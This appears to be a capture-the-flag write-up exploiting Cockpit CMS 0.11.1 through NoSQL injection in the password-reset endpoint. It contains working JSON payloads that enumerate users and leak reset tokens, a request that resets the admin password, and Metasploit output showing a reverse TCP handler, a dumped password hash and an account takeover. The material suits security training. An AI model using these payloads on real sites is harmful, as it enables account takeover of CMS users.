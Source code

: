 A remote code execution exploit would definitely be nice but it is outdated. The version we are targeting is 0.11.1 and this exploit works for 0.6.1
So we'll start googling instead
Packet storm has an exploit for 0.11.1 version of cockpit. Let's check it out and recreate it. The basic idea of the exploit is that we can inject NOSQL commands and retrieve the results back to the console. 

Sending this request through burp suite to the /auth/resetpassword uri, we can see all the users in the database
`{ "user" : { "$func": "var_dump" } }`
And the users are: 
```

string(5) "admin"
string(12) "darkStar7471"
string(5) "skidy"
string(8) "ekoparty"

```

We can change the password of admin using this CVE. We first need to get a reset token for the user we want to change the password
We can achieve that using this command to /auth/resetpassword uri:
`{ 'token' : { '$func' : 'var_dump' } }`

We then get a reset token
`rp-8070385923502d710d87f00b60a67193610d5de20d873` 
which we can use at /auth/resetpassword like this
`{ "token" : "rp-8070385923502d710d87f00b60a67193610d5de20d873","password":"test123" }`
### This process can help us reset any user we want. Let's make a python script to automate it.
So i automated the steps in a python script pretty easily and with a single execution we should have custom creds for any user we want!
Just execute `python3 exploit_cockpit_0.11.1.py` and watch it hack the cms for you :P

### Metasploit module results:

For Admin
```
[*] Started reverse TCP handler on 10.8.135.205:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "darkStar7471", "skidy", "ekoparty"]
[*] Obtaining reset tokens (CVE-2020-35847)
[+]   Found tokens: ["rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23"]
[*] Checking token: rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23
[*] Obtaining user info
[*]   user: admin
[*]   name: Admin
[*]   email: admin@yourdomain.de
[*]   active: true
[*]   group: admin
[*]   password: $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
[*]   i18n: en
[*]   _created: 1621655201
[*]   _modified: 1621655201
[*]   _id: 60a87ea165343539ee000300
[*]   _reset_token: rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23
[*]   md5email: a11eea8bf873a483db461bb169beccec
[+] Changing password to 5vOeafyK23
[+] Password update successful
```
For Skiddy
```
[*] Started reverse TCP handler on 10.8.135.205:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
```
